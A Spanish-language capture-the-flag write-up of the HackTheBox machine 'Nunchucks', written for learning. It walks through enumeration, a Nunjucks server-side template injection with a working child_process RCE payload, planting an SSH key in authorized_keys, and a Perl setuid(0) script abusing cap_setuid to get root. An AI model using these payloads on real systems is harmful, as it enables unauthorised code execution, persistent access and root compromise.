




+++
title = "HackTheBox - Nunchucks"
draft = false
description = "Resolución de la máquina Nunchucks"
tags = ["HTB", "Linux", "Easy", "Nunjucks", "SSTI", "Perl", "Capabilities"]
summary = "OS: Linux | Dificultad: Easy | Conceptos: SSTI, Nunjucks, Perl, Capabilities"
categories = ["Writeups"]
showToc = true
showRelated = true
date = "2026-01-02T00:00:00"
+++

* Dificultad: `easy`
* Tiempo aprox. `6h`
* **Datos Iniciales**: `10.10.11.122`

## Nmap Scan

Tras realizar un escaneo nmap completo, se encuentran los siguientes puertos abiertos:

```shell

PORT    STATE SERVICE  VERSION
# -- TCP --
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-trane-info: Problem with XML parsing of /evox/about
|_ssl-date: TLS randomness does not represent time
|_http-title: 400 The plain HTTP request was sent to HTTPS port
|_http-server-header: nginx/1.18.0 (Ubuntu)
| tls-nextprotoneg: 
|_  http/1.1
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-alpn: 
|_  http/1.1

# -- UDP --
5353/udp open|filtered zeroconf
```

Varios puertos abiertos:
- **22/TCP (SSH)**: Versión no vulnerable, no podemos hacer mucho de momento.
- **80/TCP (HTTP)**: Un servidor web, nuestro primer sitio a mirar.
- **443/TCP (HTTPS)**: Otro (o el mismo) servidor web, con https.
- **5353/UDP (ZeroConf/mDNS)**
  - Zeroconf es un conjunto de tecnologías diseñadas para crear redes IP automáticamente, sin necesidad de configuración manual ni servidores centrales (DHCP o DNS)
  - La máquina está usando mDNS (puerto 5353), es el protocolo subyacente más común para implementar Zeroconf.
  - mDNS permite que los dispositivos en una red local se descubran entre sí y resuelvan hostnames sin un servidor DNS dedicado.

Ignoramos SSH de momento, y, dado que como se indica en [HackTricks](https://book.hacktricks.wiki/es/network-services-pentesting/5353-udp-multicast-dns-mdns.html) es posible enumerar ciertas cosas de la máquina por mDNS, vamos a por ello antes de lanzarnos a HTTP(S).

## ZeroConf, mDNS
Empiezo probando varios scripts de nmap, pero ninguno parece dar resultado
```shell
nmap -sU --script dns-service-discovery -p 5353 10.10.11.122
PORT     STATE         SERVICE
5353/udp open|filtered zeroconf #Sin info nueva
```

```shell
nmap -sU --script broadcast-dns-service-discovery -p 5353 10.10.11.122
PORT     STATE         SERVICE
5353/udp open|filtered zeroconf #Sin info nueva
```

Con dig tampoco obtenemos nada:
```shell
dig +short @10.10.11.122 -p 5353 -t any _services._dns-sd._udp.local
;; Connection to 10.10.11.122#5353(10.10.11.122) for _services._dns-sd._udp.local failed: connection refused.
;; no servers could be reached
```

No conseguimos enumerar nada de mDNS, así que vamos a por el servicio web.

## HTTP(S)
Al conectarnos a HTTP se nos redirige a HTTPS, así que ambos puertos sirven lo mismo.
```shell
curl http://nunchucks.htb -v

...[SNIP]...
* Request completely sent off
< HTTP/1.1 301 Moved Permanently
< Server: nginx/1.18.0 (Ubuntu)
< Date: Mon, 29 Dec 2025 16:20:32 GMT
< Content-Type: text/html
< Content-Length: 178
< Connection: keep-alive
< Location: https://nunchucks.htb/ #Se nos redirige a HTTPS
...[SNIP]...
```

Al entrar encontramos una página de venta online. Permite crear cuentas, así que tratamos de crear una:



No es posible registrarse, tampoco conocemos ningún email y contraseña para iniciar sesión. Tenemos que seguir enumerando.

```shell
gobuster dir -u https://nunchucks.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k --xl 45
# -k para ignorar el hecho de que el certificado para el cifrado (https) sea auto-firmado por el propio servidor.
# --xl 45 para ignorar wildcards (que en este caso devuelven una respuesta de longitud 45)
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://nunchucks.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          45
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/privacy              (Status: 200) [Size: 19134]
/login                (Status: 200) [Size: 9172]
/terms                (Status: 200) [Size: 17753]
/signup               (Status: 200) [Size: 9488]
/assets               (Status: 301) [Size: 179] [--> /assets/]
```

No encontramos mucho en ninguno de los directorios. Probamos a enumerar vhosts:

```shell
gobuster vhost --url https://nunchucks.htb --wordlist /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt --ad -k
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       https://nunchucks.htb
[+] Method:                    GET
[+] Threads:                   10
[+] Wordlist:                  /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt
[+] User Agent:                gobuster/3.8
[+] Timeout:                   10s
[+] Append Domain:             true
[+] Exclude Hostname Length:   false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
store.nunchucks.htb Status: 200 [Size: 4029]
```

Encontramos `store.nunchucks.htb`, lo añadimos a `/etc/hosts`.

### Subdominio `store` y posible SSTI
Al entrar, nos encontramos con la siguiente página:



Vemos que cuando introducimos un email, aparece un texto debajo indicando el email al que serán mandada la info, es decir, nuestro input.


Esto nos indica que puede estar tratándose de un caso de [SSTI](notas/tecnicas/ssti), así que probamos con varios inputs, como `${7*7}`:



La primera prueba no funciona, probamos con `{{ 7*'7' }}`:



Y esta sí funciona.

Dado que sabemos que `{{ 7*'7' }}` devuelve 49 y que `whatweb` indica que la página usa ExpressJS
```bash
whatweb https://store.nunchucks.htb/api/submit
https://store.nunchucks.htb/api/submit [200 OK] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.122], X-Powered-By[Express], nginx[1.18.0]
```
podemos buscar un Template engine que funcione con ExpressJS.

Tras una búsqueda, encontramos [Nunjucks](https://mozilla.github.io/nunjucks/), cuyo nombre es sospechosamente parecido al de la máquina.

### Nunjucks y RCE - Documentación & Explicación
En la [documentación de Nunjucks](https://mozilla.github.io/nunjucks/api.html) encontramos lo siguiente:
> *nunjucks does not sandbox execution so it is not safe to run user-defined templates or inject user-defined content into template definitions. On the server, you can expose attack vectors for accessing sensitive data and remote code execution...*

En [esta página](https://adeadfed.com/posts/nunjucks-exploiting-second-order-ssti/) encontramos info acerca de la posibilidad de conseguir RCE haciendo uso de un payload como el siguiente:

```javascript
{{ range.constructor("return global.process.mainModule.require('child_process').execSync('whoami').toString()")() }}
```
Explicación:
 - Nunjucks provee `range` como una función por defecto. Usar `range.constructor` permite acceder al constructor de funciones de Javascript.

> `range` no tiene nada de especial, es simplemente un objeto disponible en este contexto. Se usa porque en js `x.constructor` lleva a la clase que creó `x`. Como `Function` creó `range`, `range.constructor` lleva a `Function` 

- En js, el constructor `Function` toma strings como argumentos y los convierte en el cuerpo de una función nueva.

P.ej y si tenemos en cuenta que en este caso `range.constructor` equivale a `Function`, `range.constructor("return x")` sería equivalente a:

```javascript
const funcionAnonima = function(){
  return x;
}
```
Y añadir un "`()`" al final llamaría directamente a la función creada, es decir, `range.constructor("return x")()` sería equivalente a:

```javascript
const funcionAnonima = function(){
  return x;
}

funcionAnonima();
```

Esto significa que nuestro payload hace algo como:

```javascript
const funcionAnonima = function(){
  return global.process.mainModule.require('child_process').execSync('whoami').toString()
}

funcionAnonima();
```
Al ejecutar la función, hace lo siguiente:
1. Salta al entorno global (`global`) y dentro de él al objeto del proceso actual (`process`)
2. Entra a `MainModule`, que representa el script principal que inició la aplicación y que en general debería tener acceso a funciones para importar librerías.
3. Importa el módulo `child_process`
4. Llama al método `execSync` con el comando como parámetro (`whoami`)
5. Convierte el output a string y lo devuelve

### Nunjucks y RCE - Explotación
Probamos a ejecutar algunos comandos con nuestro payload:

- `whoami`:
```http
...[SNIP]...
Priority: u=0
Te: trailers
Connection: keep-alive

{"email":"{{ range.constructor(\"return global.process.mainModule.require('child_process').execSync('whoami').toString()\")() }}"}
```
Devuelve:
```json
"response":"You will receive updates on the following email address: david\n."
```
Vemos que se ejecuta como usuario `david`.

Tras probar a ejecutar varios reverse shells, ninguno funcionaba (ni encodeando en base64). Decido probar a crear un par de claves ssh para `david` y copiar la privada:

```bash
#Dentro de execSync en la POST request:
mkdir ~/.ssh && chmod 700 ~/.ssh && ssh-keygen -t ed25519 -q -f ~/.ssh/mykey2
```
> *La clave privada (mykey2) habrá que copiarla a la máquina atacante, la clave pública (mykey2.pub) habrá que copiarla a authorized_keys dentro de /home/david/.ssh/*

Mostramos en el navegador la clave privada:
```bash
# mykey2 = clave privada, mykey2.pub = clave pública
cat ~/.ssh/mykey2
```
y en mi caso la guardo a id_ed25519. Además, cambio cada `\n` por un salto de línea literal (dado que el comando ha devuelto un string con `\n` literales en lugar de saltos de línea)

Luego copio `mykey2.pub` a `authorized_keys`:
```bash
#Dentro de execSync en la POST request:
cat id_rsa_key.pub >> /home/david/.ssh/authorized_keys
```

Y por último intento conectarme:
```bash
ssh david@nunchucks.htb -i id_ed25519 
...

Last login: Fri Jan  2 20:12:54 2026 from 10.10.14.10
david@nunchucks:~$ 
```

## Escalada de privilegios
Al ejecutar `linpeas.sh` destacan varias cosas:
- `MUY IMPORTANTE`: Files with capabilities: /usr/bin/perl = cap_setuid+ep
- `MUY IMPORTANTE`: Según linpeas, vulnerable a CVE-2021-3560
- `IMPORTANTE`: Binario `pkexec` con SUID bit
- `MEDIO`: Archivo /etc/apparmor/severity.db: ASCII text

> [!tip]+ Nota: Capabilities y root
> *Normalmente, en Linux hay 2 tipos de usuarios (ignorando los de servicio): usuarios normales, y root. Antiguamente, si un programa quería hacer algo especial, había que dar permiso SUID al binario, lo que resultaba peligroso porque, quizás para hacer una cosa sencilla, se le otorga al binario el poder de administrador total.La intención de las capabilities es dividir el poder de **`root`** en partes pequeñas específicas, como abrir puertos bajos (`CAP_NET_BIND_SERVICE`) o cambiar la hora del sistema (`CAP_SYS_TIME`).*

Las capabilities están hechas para reducir el peligro que supondría otorgar root, pero el peligro sigue presente si la capability es crítica, como en este caso, con `CAP_SETUID+EP`.

- `cap_setuid+ep` permite al proceso cambiar su propio UID de forma arbitraria, es decir, puede, cuando quiera, convertirse a root (UID 0).

Para ello, ejecutamos un script de perl que cambie el UID del proceso a root (0) y ejecute un shell:

```bash
david@nunchucks:~$ cd /tmp
david@nunchucks:/tmp$ nano script.pl
```

```perl
#!/usr/bin/perl
use POSIX qw(setuid);

setuid(0);
system("/bin/bash");
```

```bash
david@nunchucks:/tmp$ chmod +x script.pl
david@nunchucks:/tmp$ ./script.pl
root@nunchucks:/tmp#
```

Y tenemos root.
